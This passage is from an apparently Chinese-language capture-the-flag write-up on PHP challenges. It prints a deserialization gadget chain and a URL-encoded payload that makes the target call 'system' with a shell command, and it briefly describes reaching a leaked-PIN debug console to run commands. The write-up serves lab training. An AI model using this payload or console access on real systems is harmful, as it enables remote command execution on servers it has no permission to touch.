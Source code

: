 ```
}

class B {
    private $b;

    function __invoke($c) {
        $s = $this->b;
        $s($c);
    }
}


 if(isset($_GET['data']))
 {
     $a = unserialize($_GET['data']);
 }
 else {
     highlight_file(__FILE__);
 }
```

进行代码审计，由于代码中没有命令执行函数，需要我们手动构造

我们发现A类的 \$s(\$this->evil);可以触发B类的\$s($c);,若果s赋值为system，c为rce命令，那我们就能进行命令执行

由于A，B类中存在私有属性，需要我们手动构造序列化链

![image-20240825194348508](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408251943541.png)

```
O%3A1%3A%22A%22%3A2%3A%7Bs%3A7%3A%22%00A%00evil%22%3Bs%3A2%3A%22ls%22%3Bs%3A4%3A%22%00A%00a%22%3BO%3A1%3A%22B%22%3A1%3A%7Bs%3A4%3A%22%00B%00b%22%3Bs%3A6%3A%22system%22%3B%7D%7D"
```

然后我们修改命令执行函数，就能得到flag

![image-20240825194435980](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408251944158.png)



### **垫刀之路07: 泄漏的密码**

我们打开页面获得一个pin码，我们扫描目录

![image-20240907115147228](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409071151320.png)

得到一个console文件，我们访问这个文件，输入密码，获得控制台权限

然后输入命令，得到flag

![image-20240907115242238](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409071152358.png)



### **弗拉格之地的挑战**
